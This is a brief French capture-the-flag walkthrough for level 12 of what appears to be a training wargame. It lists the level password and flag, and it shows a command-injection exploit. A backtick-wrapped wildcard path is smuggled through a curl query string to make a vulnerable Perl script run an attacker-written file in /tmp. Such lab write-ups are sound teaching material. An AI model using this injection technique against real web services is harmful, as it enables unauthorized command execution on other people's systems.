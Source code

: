 # level 12

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
fa6v5ateaw21peobuub8ipe6s
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

On a un fichier perl qui prend 2 paramètre

Osef du 2nd, mais sur le premier il vire les whitespaces puis le CAPS.

Impossible donc de lui envoyer le shell directement, puisqu’il va CAPS le tmp.

CEPENDANT, on peut mettre un wildcard à la place du tmp.
```cmd
nano /tmp/WOW
getflag > /tmp/wow
chmod +x /tmp/WOW
curl 'localhost:4646?x=`/*/WOW`'
```
On cat le résultat `g1qKMiRpXf53AWhDaU7FEkczr`

```cmd
su level13
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
g1qKMiRpXf53AWhDaU7FEkczr
```